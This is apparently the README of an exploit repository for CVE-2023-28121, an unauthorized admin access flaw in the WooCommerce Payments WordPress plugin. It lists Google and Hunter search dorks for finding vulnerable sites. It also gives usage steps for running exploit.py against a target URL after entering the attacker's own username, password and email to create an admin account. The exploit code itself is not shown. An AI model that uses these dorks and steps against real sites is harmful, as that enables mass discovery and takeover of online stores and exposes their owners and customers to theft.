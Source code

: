 ##  CVE-2023-28121
Wordpress WooCommerce plugin Unauthorized Admin Access

- Google dork:
```
inurl:/wp-content/plugins/woocommerce-payments/
```
- Hunter dork:
```
web.body="/wp-content/plugins/woocommerce-payments/"
```

### Usage
```
# Edit the Usarname, Password and Email to your own in the exploit.

# Run:
python3 exploit.py http://target.com
```
